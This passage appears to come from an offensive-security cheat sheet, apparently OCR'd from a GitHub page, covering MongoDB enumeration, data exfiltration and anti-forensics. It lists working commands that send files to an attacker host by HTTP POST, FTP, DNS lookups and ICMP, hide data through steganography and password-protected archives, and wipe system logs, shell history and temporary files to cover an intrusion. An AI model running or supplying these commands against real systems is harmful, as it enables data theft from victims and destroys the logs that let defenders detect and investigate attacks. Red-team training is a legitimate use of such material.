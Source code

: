 ```bash
# MongoDB enumeration
mongo target.com:27017
    > show dbs
    > use database_name  
    > show collections
```

### **Phase 9.2: Data Exfiltration Methods**

#### **Network-Based Exfiltration**
```bash
# HTTP POST exfiltration
curl -X POST -F "file=@sensitive_data.txt" http://attacker.com/upload

# DNS exfiltration
for data in $(cat sensitive_data.txt); do dig $data.attacker.com; done

# ICMP exfiltration  
hping3 -1 -E /path/to/file -d 1400 target.com

# FTP exfiltration
curl -T sensitive_data.txt ftp://attacker.com --user username:password
```

#### **Steganography & Covert Channels**
```bash
# Steghide for image hiding
steghide embed -cf image.jpg -ef secret.txt

# Base64 encoding for obfuscation
base64 sensitive_data.txt > encoded_data.txt

# ZIP with password protection
zip -P password archive.zip sensitive_data.txt
```

---

## Anti-Forensics & Evasion

### **Phase 10.1: Log Cleaning**

#### **Linux Log Cleaning**
```bash
# Clear system logs
> /var/log/auth.log
> /var/log/syslog  
> /var/log/kern.log
> /var/log/apache2/access.log

# Clear command history
history -c
> ~/.bash_history
export HISTSIZE=0

# Clear temporary files
rm -rf /tmp/*
rm -rf /var/tmp/*
```
